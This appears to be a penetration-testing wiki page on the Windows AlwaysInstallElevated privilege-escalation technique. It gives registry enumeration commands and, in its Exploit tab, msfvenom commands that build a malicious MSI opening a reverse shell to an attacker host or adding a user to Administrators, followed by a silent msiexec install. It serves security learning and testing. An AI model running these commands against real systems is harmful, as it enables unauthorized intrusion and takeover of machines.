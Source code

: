 ```yaml
---
description: MITRE ATT&CK™  System Binary Proxy Execution - Msiexec - Technique T1218.007
---
```


# AlwaysInstallElevated

## Theory

The **AlwaysInstallElevated** policy feature offers ALL users on a Windows operating systems the ability to install an MSI package file with elevated (system) privileges.

## Practice

{% tabs %}
{% tab title="Enumerate - UNIX-like" %}
If it is enabled, it will create the value `AlwaysIntstallElevated` and set it to `0x1` (enabled) on the following two registry keys. [Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can be used to query registry remotely from a UNIX-like machine.

```bash
reg.py domain.local/username:password123@<TARGET_IP> query -keyName "HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" -v AlwaysInstallElevated
reg.py domain.local/username:password123@<TARGET_IP> query -keyName "HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" -v AlwaysInstallElevated
```
{% endtab %}

{% tab title="Enumerate - Windows" %}
Manual verification of the activation of this parameter is very simple and can be done with two commands. If it is enabled, it will create the value `AlwaysIntstallElevated` and set it to `0x1` (enabled) on the following two registry keys.

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Alternatively, using [PowerUp](https://github.com/PowerShellMafia/PowerSploit) from Powersploit we can enumerate the AlwaysInstallElevated policy.

```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

Alternatively, using the `systeminfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe systeminfo
```
{% endtab %}

{% tab title="Exploit" %}
We just have to generate a malicious MSI file and install it with `msiexec.exe`

Generate a malicious MSI

```bash
# Reverse Shell
v4resk㉿kali$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f msi > package.msi

# Add user to Administrators
v4resk㉿kali$ msfvenom -p windows/exec CMD='net localgroup administrators <YOUR_USER> /add' -f msi > package.msi
```

Then, after downloading it to the target, install the MSI file using msiexec

```powershell
msiexec.exe /quiet /qn /i package.msi
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://juggernaut-sec.com/alwaysinstallelevated/" %}
